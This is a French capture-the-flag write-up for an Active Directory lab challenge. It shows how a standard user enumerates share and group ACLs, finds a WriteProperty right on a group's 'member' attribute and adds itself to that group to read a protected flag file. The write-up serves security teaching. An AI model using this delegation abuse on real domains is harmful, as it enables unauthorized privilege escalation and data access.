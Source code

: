 # Ghost Membership

**Catégorie** : Active Directory/Réaliste  
**Difficulté** : Facile  
**Author**: HF47

## Description du challenge

Au sein de la station les accès sont strictement contrôlés. Pourtant, une faille subtile dans le système de délégation pourrait bien changer la donne. Saurez-vous en tirer parti pour franchir les niveaux de sécurité internes ?

## Solution

### 1. Reconnaissance initiale et identification du partage

Commençons par identifier notre contexte actuel avec PowerShell:

```powershell
# Identifier notre utilisateur actuel et ses groupes
whoami
whoami /groups
```

Nous constatons que nous sommes connectés en tant qu'utilisateur standard et membre du groupe `CTF_Player`.

Examinons ensuite les ressources réseau disponibles sur le domaine:

```powershell
# Lister les partages disponibles sur le contrôleur de domaine
net view \\dc1
```

Le résultat nous montre plusieurs partages, dont un nommé `flagshare` qui semble particulièrement intéressant:

```
Ressources partagées sur \\dc1

Nom du partage    Type        Utilisé comme    Commentaire
-------------------------------------------------------------------------------
ADMIN$            Disque      Distant          Administration à distance
C$                Disque      Distant          Partage par défaut
flagshare         Disque                       
IPC$              IPC         Distant          Appel de procédure distante
NETLOGON          Disque      Distant          Logon server share
SYSVOL            Disque      Distant          Logon server share
```

Le partage `flagshare` n'a pas de commentaire spécifique, mais son nom indique qu'il pourrait contenir le flag recherché.

### 2. Tentative d'accès au partage flagshare

Essayons de lister le contenu de ce partage:

```powershell
# Lister le contenu du partage flagshare
Get-ChildItem -Path "\\dc1\flagshare"
```

Nous arrivons à lister le contenu et voyons qu'il contient un fichier nommé `flag.txt`:

```
    Répertoire : \\dc1\flagshare

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        23/04/2025     14:30             45 flag.txt
```

Essayons maintenant de lire le contenu de ce fichier:

```powershell
# Tentative de lecture du fichier flag.txt
Get-Content "\\dc1\flagshare\flag.txt"
```

Cette tentative échoue avec une erreur d'accès refusé:

```
Get-Content : Accès refusé au chemin d'accès '\\dc1\flagshare\flag.txt'.
Au caractère Ligne:1 : 1
+ Get-Content "\\dc1\flagshare\flag.txt"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\dc1\flagshare\flag.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Ce message d'erreur confirme que nous pouvons voir que le fichier existe, mais nous n'avons pas les permissions nécessaires pour lire son contenu.

### 3. Analyse des permissions sur le partage

Examinons les permissions sur le partage pour comprendre pourquoi nous ne pouvons pas lire ce fichier:

```powershell
# Vérifier notre accès au partage
net use \\dc1\flagshare

# Examiner les permissions NTFS sur le dossier partagé
icacls "\\dc1\flagshare"
```

L'analyse des ACL nous montre:

```
\\dc1\flagshare CTFCORP\Administrateurs:(OI)(CI)(F)
               SYSTÈME:(OI)(CI)(F)
               CTFCORP\CTF_Player:(RD)
               CTFCORP\CTF_Flag:(OI)(CI)(R)
```

Cette sortie nous révèle des informations cruciales:
- Le groupe `CTF_Player` (dont nous sommes membre) a uniquement le droit `RD` (Read & Execute Directory) sur le dossier
- Le groupe `CTF_Flag` a des droits de lecture `(OI)(CI)(R)` sur tous les fichiers du dossier
- `(OI)` signifie "Object Inherit" et `(CI)` signifie "Container Inherit", ce qui signifie que ces permissions s'appliquent à tous les fichiers et sous-dossiers

Cela explique pourquoi nous pouvons lister le contenu du dossier mais pas lire le fichier `flag.txt` - nous devons faire partie du groupe `CTF_Flag` pour y accéder.

### 4. Analyse des droits sur le groupe CTF_Flag

Examinons maintenant ce groupe `CTF_Flag` pour voir si nous pouvons nous y ajouter:

```powershell
# Obtenir des informations sur le groupe CTF_Flag
Get-ADGroup "CTF_Flag" -Properties *
```

Vérifions ensuite quels sont nos droits sur ce groupe:

```powershell
# Récupérer le groupe CTF_Flag
$group = Get-ADGroup "CTF_Flag"

# Examiner les ACLs sur ce groupe
$acl = Get-Acl "AD:$($group.DistinguishedName)"

# Filtrer pour trouver nos droits en tant que CTF_Player
$acl.Access | Where-Object { $_.IdentityReference -like "*CTF_Player*" }
```

Le résultat de cette dernière commande nous montre quelque chose d'intéressant:

```
ActiveDirectoryRights : WriteProperty
InheritanceType       : None
ObjectType            : bf9679c0-0de6-11d0-a285-00aa003049e2
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : CTFCORP\CTF_Player
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

Nous découvrons que le groupe `CTF_Player` a le droit `WriteProperty` sur un attribut spécifique du groupe `CTF_Flag`, identifié par le GUID `bf9679c0-0de6-11d0-a285-00aa003049e2`.

Une recherche rapide nous indique que ce GUID correspond à l'attribut `member` dans Active Directory. Cela signifie que nous avons le droit d'ajouter des membres au groupe `CTF_Flag` !

> Note: Si vous souhaitez confirmer cette information sur le GUID, vous pouvez retrouver sa correspondance dans la documentation Microsoft ou utiliser des outils comme ADExplorer.

Théoriquement, nous pourrions également utiliser l'outil PowerView pour vérifier ces permissions, mais cet outil n'est généralement pas disponible par défaut sur les systèmes Windows:

```powershell
# Cette commande fonctionne si Powerview est installé
Get-DomainObjectAcl -Identity "CTF_Flag" | ? { $_.SecurityIdentifier -match $(ConvertTo-SID "CTF_Player") }
```

Nous pouvons également vérifier ces permissions avec la commande dsacls, qui est un outil natif Windows:

```powershell
# Vérifier les ACL avec dsacls
dsacls "CN=CTF_Flag,CN=Users,DC=ctfcorp,DC=local" | findstr /i "CTF_Player"
```

Cette commande nous montre également que le groupe CTF_Player a le droit de modifier l'attribut "member" du groupe CTF_Flag.

### 5. Exploitation de la vulnérabilité

Maintenant que nous savons que nous pouvons ajouter des membres au groupe `CTF_Flag`, nous allons abuser de cette délégation pour nous y ajouter:

```powershell
# S'ajouter au groupe CTF_Flag
Add-ADGroupMember -Identity "CTF_Flag" -Members $env:USERNAME

# Vérifier que nous sommes bien ajoutés
Get-ADGroupMember -Identity "CTF_Flag"
```

La commande s'exécute avec succès, et nous pouvons confirmer que notre utilisateur fait maintenant partie du groupe `CTF_Flag`.

Cependant, les changements de groupe en Active Directory ne sont pas immédiatement appliqués pour les sessions en cours. Pour que nos nouveaux droits soient pris en compte, nous devons forcer l'actualisation des tickets Kerberos:

```powershell
# Purger les tickets Kerberos pour forcer le rafraîchissement des droits
klist purge
```

Si cette commande ne fonctionne pas pour rafraîchir les droits, il peut être nécessaire d'ouvrir une nouvelle session RDP.

### 6. Accès au flag

Maintenant que nous sommes membres du groupe `CTF_Flag`, essayons à nouveau d'accéder au partage et de lire le flag:

```powershell
# Accéder au partage et lire le flag
Get-Content \\dc1\flagshare\flag.txt
```

Cette fois, la commande s'exécute avec succès et nous affiche le contenu du fichier:

```
404CTF{Wr1t3_M3mb3r5_1s_D4ng3r0us_R1ght!}
```
